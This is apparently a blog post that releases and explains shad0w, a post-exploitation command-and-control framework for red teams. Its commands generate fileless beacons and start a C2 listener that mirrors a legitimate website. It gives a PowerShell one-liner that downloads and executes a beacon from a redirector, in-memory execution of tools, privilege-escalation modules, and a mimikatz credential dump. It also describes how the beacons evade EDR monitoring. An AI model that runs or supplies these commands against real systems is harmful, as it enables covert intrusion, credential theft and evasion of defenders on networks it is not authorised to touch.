


**[This project can be found on github](https://github.com/bats3c/shad0w)**

Post exploitation is large part of a red team engagement. While many organisations begin to mature and start to deploy a range of sophisticated Endpoint Detection & Response solutions (EDR) onto their networks, it requires us, as attackers to also mature. We need to upgrade our arsenal to give us the capabilities to successfully operate on their networks. That is why today, I am releasing shad0w.

shad0w is a post exploitation framework which is designed to operate covertly on such networks, providing the operator with much greater control over their engagements. Over future blog posts I will go into greater detail on the intricacies of how shad0w works. This blog post will, therefore, serve as an introduction into the usage and features that shad0w has to offer.

## Overview & Install

shad0w is designed to be run inside docker, this is to make life easier for the operator as it has some very specific dependencies which are required for it to work correctly. Installation is very simple, just requiring the two commands shown below.

```
$ git clone https://github.com/bats3c/shad0w.git && cd shad0w
$ sudo ./shad0w install
```

## Getting a foothold

shad0w implants are called beacons. There are two types of beacons: secure and insecure. Secure beacons are designed to operate in environments where it is vital to remain undetected whereas insecure beacons are for environments where the security is much more relaxed.

Currently there are 3 different formats for beacons: exe, shellcode and powershell. The shellcode and powershell formats allow for shad0w to be used in completely fileless attacks allowing everything to be run entirely inside memory.

To generate such a payload you can use the command shown below, this will place the payload of a statically linked secure beacon in `beacon.ps1`

```
$ shad0w beacon -p x64/windows/secure/static -H your.redirector -f psh -o beacon.ps1
```

The next steps would be to start the C2 server. When starting the C2 it will need to be given the address that the beacon will connect to. So if you are using redirectors it would not be the address of the C2 but rather the address of your first redirector. The command for starting a C2 instance for the beacons to callback to is shown below

```
$ shad0w listen -e your.redirector
```

A feature which could also be useful is the C2 servers ability to live proxy and essentially clone a website. This feature can be used with the `--mirror` or `-m` flag. This example would mirror the site https://www.bbc.com/ to the address of your redirector https://your.redirector/

```
$ shad0w listen -e your.redirector -m "https://www.bbc.com/"
```

So then when you visit your redirector you are given https://www.bbc.com/. This will also proxy any links you click or files you download which are on the site you have mirrored.


Now that your C2 is up and running you can execute the beacon. I will use an example of how you can do so with powershell but due to the beacon being in shellcode form, you can quite easily execute the beacon from many other languages.

```
PS> IEX (New-Object System.Net.WebClient).DownloadString("https://another.redirector/beacon.ps1")
```

And we get a callback



## Enumeration

Now that we have a active session on the machine we can interact with it via the `beacons` command.

```
shad0w ≫ beacons -i 1
```

shad0w has some useful commands that can be used to explore and interact with the local file system e.g `ls cd pwd rm cat mkdir` while also letting you `upload` and `download` files.

One of the most useful features of shad0w is that it allows you to execute any .NET assembly, EXE, DLL, VBS, JS or XSL file in memory on the target without anything touching disk. For example to execute the .NET assembly `seatbelt.exe` in memory you can use the `execute` command, giving the file name with the `-f` flag and any arguments with the `-p` flag

```
shad0w ≫ execute -f seatbelt.exe -p all
```

All the output from the command will be sent back to your terminal window


## Privilege Escalation

I have designed shad0w to be very modular, allowing operators to create and use their own modules. I have kept this philosophy in mind when making the `elevate` command. I designed it to help elevate the current beacons privileges by using common privilege escalation techniques & exploits all of which are stored in easy to use modules, allowing an operator to create new or build on existing modules easily.

To list the available privesc modules for the current session you can use the `--list` or `-l` flag

```
shad0w ≫ elevate --list
```

Modules come in two different modes, check and exploit. To run a modules in check mode use the `--check` or `-c` flags and to use a module in exploit mode use the `--use` or `-u` flags.

```
shad0w ≫ elevate --check system_printspoofer
shad0w ≫ elevate --use system_printspoofer
```

If an exploit is successful you will receive a new session from a beacon with elevate privileges



## Modules

As I previously said, shad0w is designed to be very modular making the creation of new modules not much of a challenge. To showcase this I've added a mimikatz module. It will be executed inside memory like any module you decide to run but it should never be run over a secure beacon. This is because by design mimikatz is not very operationally secure so any half decent EDR should catch it very quickly. It is very much a welcome addition to the insecure beacons though.

This module can be used with the `mimikatz` command.

```
shad0w ≫ mimikatz -x sekurlsa::logonpasswords
```

Any other mimikatz commands can also by run by using the `-x` flag.


## Defenses

In future blog posts I will be going into a lot more detail into how these defenses work in the secure beacon - but here's a quick overview.

Currently shad0w uses 3 main defences:

- Dynamic in memory code execution
- Directly using syscalls
- Anti DLL injection

### Dynamic in memory code execution

This is achieved by safely hijacking alertable threads in a running processes and injecting the modules directly into them. This can help to avoid Sysmon's event ID 8, which can be used to detect process injection.

### Directly using syscalls

By directly using native windows syscalls, shad0w is able to avoid any userland API hooks placed by EDR solutions. This will greatly reduce their ability to monitor shad0w.

### Anti DLL injection

The main method EDR solutions use to hook and monitor programs is by injecting a DLL into running processes allowing them to watch the inner workings of a program. This is currently combated by two methods: enforcing that only Microsoft signed DLLs are allowed into child processes (not many EDR DLLs are signed by Microsoft) and also by maintaining a whitelist of DLLs that are allowed into processes and blocking all others. This ensures that even if a DLL is signed by Microsoft it will still not be able to enter any of the processes.

## Stay Up To Date

This is a constantly evolving project under active development. There are lots of exciting new features going to be added over the coming weeks so make sure you stay up to date with the lastest changes on this project's [GitHub](https://github.com/bats3c/shad0w/).
